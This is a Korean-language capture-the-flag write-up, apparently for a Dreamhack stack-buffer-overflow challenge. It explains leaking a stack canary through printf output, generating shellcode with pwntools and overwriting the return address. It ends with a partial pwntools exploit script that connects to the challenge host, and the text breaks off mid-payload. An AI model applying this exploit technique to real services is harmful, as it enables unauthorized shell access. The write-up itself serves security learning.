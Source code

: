 문제에서 사용자가 입력한 값을 출력해 주기 때문에 canary값을 알아낼 수가 있다.

사용자가 buf,dummy를 덮을 88byte와 거기에 canary 값의 첫 바이트인 '\x00'까지 덮도록 하면 다음 함수에서 canary값을 읽고 그 뒤로 메모리에서 '\x00'을 읽을때까지 데이터를 출력해주기 때문이다.

```c
  printf("Your input is '%s'\n", buf);
```

## Shell code 작성
pwntools에서는 shellcraft를 이용하여 쉽게 쉘코드를 만들 수 있다. 아직은 내가 쉘코드를 스스로 만들 능력은 안되서,, 여기저기 사용법을 찾아봤더니 architecture만 지정해주면 바로 쉘코드 생성이 되었다. 

아래는 쉘코드를 생성하고 buf에서 canary까지의 길이(88byte)중 부족 부분은 모두 '\x90'으로 채우는 코드이다.

```py
context.arch = "amd64"
SHELLCODE = asm(shellcraft.sh()).ljust(buf2cnry,b"\x90")
```


## Buf 주소

이 문제에서는 buf의 주소를 시작부분에서 주어진다. 따라서 리턴 주소를 buf의 시작주소로 바꿔준다.

이렇게 해서 스택을 다음과 같이 변조하면 쉘을 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/168714463-4a7f0ab2-7d8f-42d9-b466-f644da5abcbb.png)

## 코드
pwntools를 이용한 전체 코드는 다음과 같다.

```py
from pwn import *

p = remote("host1.dreamhack.games",13165)
# context.log_level=10

# 버퍼 주소
p.recvuntil("Address of the buf: ")
buf_addr = p.recvline()[:-1]
print("buf_addr : {}".format(buf_addr))

# Distance
p.recvuntil("Distance between buf and $rbp: ")
buf2ebp = int(p.recvline()[:-1])
print("buf to ebp : {}".format(buf2ebp))

# get Canary value
buf2cnry = buf2ebp - 8
print("buf to canary : {}".format(buf2cnry))

payload = b"A"*(buf2cnry+1)
p.sendafter("Input:",payload)

p.recvuntil(payload)
canary = b"\x00" + p.recvn(7)
print("canary : {}".format(canary))

# SHELLCODE Exploit
context.arch = "amd64"
SHELLCODE = asm(shellcraft.sh()).ljust(buf2cnry,b"\x90")

payload = ( SHELLCODE +                         # SHELLCODE
            canary +                      # canary_value
            b"B"*8 +
```